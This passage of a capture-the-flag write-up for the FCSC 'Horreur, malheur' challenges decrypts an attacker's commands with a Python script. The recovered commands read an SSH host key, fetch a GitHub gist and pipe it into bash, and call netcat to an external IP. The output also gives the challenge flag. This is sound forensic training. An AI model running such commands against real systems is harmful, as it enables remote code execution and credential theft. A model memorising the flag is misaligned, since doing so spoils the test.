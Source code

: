 Then put it into cyberchef to URL decode and put it in the following python script :
```python
import base64
import zlib
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import pad, unpad


dskey = "50c53be3eece1dd551bebffe0dd5535c"
commands = ["DjrB3j2wy3YJHqXccjkWidUBniQPmhTkHeiA59kIzfA=", "K/a6JKeclFNFwnqrFW/6ENBiq0BnskUVoqBf4zn3vyQ=", "/ppF2z0iUCf0EHGFPBpFW6pWT4v/neJ6wP6dERUuBM/6CAV2hl/l4o7KqS7TvTZAWDVxqTd6EansrCTOAnAwdQ==", "Lmrbj2rb7SmCkLLIeBfUxTA2pkFQex/RjqoV2WSBr0EyxihrKLvkqPKO3I7KV1bhm8Y61VzkIj3tyLKLgfCdlA==", "yPfHKFiBi6MxfKlndP99J4eco1zxfKUhriwlanMWKE3NhhHtYkSOrj4QZhvf6u17fJ+74TvmsMdtYH6pnvcNZOq3JRu2hdv2Za51x82UYXG1WpYtAgCa42dOx/deHzAlZNwM7VvCZckPLfDeBGZyLHX/XP4spz4lpfau9mZZ+/o=", "E1Wi18Bo5mPNTp/CaB5o018KdRfH2yOnexhwSEuxKWBx7+yv4YdHT3ASGAL67ozaoZeUzaId88ImfFvaPeSr6XtPvRqgrLJPl7oH2GHafzEPPplWHDPQQUfxsYQjkbhT", "7JPshdVsmVSiQWcRNKLjY1FkPBh91d2K3SUK7HrBcEJu/XbfMG9gY/pTNtVhfVS7RXpWHjLOtW01JKfmiX/hOJQ8QbfXl2htqcppn+XeiWHpCWr+yyabDservMnHxrocU4uIzWNXHef5VNVClGgV4JCjjI1lofHyrGtBD+0nZc8=", "WzAd4Ok8kSOF8e1eS6f8rdGE4sH5Ql8injexw36evBw/mHk617VRAtzEhjXwOZyR/tlQ20sgz+JxmwQdxnJwNg==", "G9QtDIGXyoCA6tZC6DtLz89k5FDdQNe2TfjZ18hdPbM=", "QV2ImqgrjrL7+tofpO12S9bqgDCRHYXGJwaOIihb+NI="]
for data in commands:
	aes = AES.new(dskey.encode(), AES.MODE_ECB)
	cmd = zlib.decompress(aes.decrypt(base64.b64decode(data)))
	print(cmd.decode())
```

Which outputs :
```bash
id
ls /
echo FCSC{6cd63919125687a10d32c4c8dd87a5d0c8815409}
cat /data/runtime/etc/ssh/ssh_host_rsa_key
/home/bin/curl -k -s https://api.github.com/repos/joke-finished/2e18773e7735910db0e1ad9fc2a100a4/commits?per_page=50 -o /tmp/a
cat /tmp/a | grep "name" | /pkg/uniq | cut -d ":" -f 2 | cut -d '"' -f 2 | tr -d '
' | grep -o . | tac | tr -d '
'  > /tmp/b
a=`cat /tmp/b`;b=${a:4:32};c="https://api.github.com/gists/${b}";/home/bin/curl -k -s ${c} | grep 'raw_url' | cut -d '"' -f 4 > /tmp/c
c=`cat /tmp/c`;/home/bin/curl -k ${c} -s | bash
rm /tmp/a /tmp/b /tmp/c
nc 146.0.228.66:1337
```

And here is our flag !

## Horreur, malheur 4/5 - Pas si simple persistance

> Vous remarquez qu'une fonctionnalité built-in de votre équipement ne fonctionne plus et vous vous demandez si l'attaquant n'a pas utilisé la première persistance pour en installer une seconde, moins "visible"...

> Vous cherchez les caractéristiques de cette seconde persistance : protocole utilisé, port utilisé, chemin vers le fichier de configuration qui a été modifié, chemin vers le fichier qui a été modifié afin d'établir la persistance.
